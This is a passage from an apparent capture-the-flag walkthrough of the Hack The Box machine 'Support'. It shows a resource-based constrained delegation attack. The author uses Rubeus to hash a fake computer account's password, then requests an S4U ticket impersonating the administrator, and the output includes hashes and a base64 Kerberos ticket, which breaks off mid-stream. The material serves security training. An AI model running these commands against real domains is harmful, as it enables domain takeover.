 It calls out that it can’t find 0xdfFakeComputer.support.htb, which makes sense. It shows this new permission:

![image-20220527153649549](https://0xdfimages.gitlab.io/img/image-20220527153649549.png)

#### Auth as Fake Computer

I’ll use `Rubeus` to get the hash of my fake computer account:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: Calculate Password Hash(es)

[*] Input password             : 0xdf0xdf123
[*] Input username             : 0xdfFakeComputer
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTB0xdffakecomputer
[*]       rc4_hmac             : B1809AB221A7E1F4545BD9E24E49D5F4
[*]       aes128_cts_hmac_sha1 : F7A01B9628299B9FB8A93CFCCF8E747C
[*]       aes256_cts_hmac_sha1 : 90499A3696F8B07B9CDB02E919F193768519340F7812F6050177E6997262B6F0
[*]       des_cbc_md5          : 76EF4F97ADD99176

```

I need the one labeled `rc4_hmac`, which I’ll pass to `Rubeus` to get a ticket for administrator:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxOeKt6Ird
      teB+aO1v2heZp/GctaiPKQ3PL7uv6vECkSfrJZ96wZxhiTn96yEK0iBG6iu/lW45R67fkTiYVjrCwJ2x
      0Iv4AVbat5CjivLd2vBB3P8TMt/2yS3dFuDHxRxt43pJY/BCMq867ckAYrmVJZkV4J2Gr+bhLCrX0iEN
      9gX7iTMtKRrE9Pb6hZsu4CUpxMs8UpgJXI+kvKgE7EXwVTd5sIWNHjIu5Lvpuqk8jx98Zy11md6ZvcTc
      qbWis+ZIb/BSHdu35F4TtpMt48RZdeoXvrFcmYbzfzi3yVSZ8I3T50v2HdZj9GaGWknvCSUpGLsrW42P
      cfVBy3cvx9nfVTgNlF0mFMl1NOkf41HsixyBoJjLay2oxAJOmfZDGdjzA88rlx5Ox0z6Llj8RsmsJz6q
      59turK4Kaa7zUGxIMFhb+Snxb2YJm3HAVxdOsxnynQOpAWdOU8lztOaGiM9x6d0VADbvt0QJAjdJkFw4
      sbK6wQ8/Ptu02FCseBd2aUII0AAWFiWwrECPbGeHv/0tqP67Q8BhQNXF6QN7wGJQmLAz8f5a5KaX9Vo6
      2plegvVBrfxQ2SY5wN5xosvUC+U2MX636+8N68TRQca3nFGn3E7Du8sDwPUuK2m/POgWcP4UDixT0cXr
```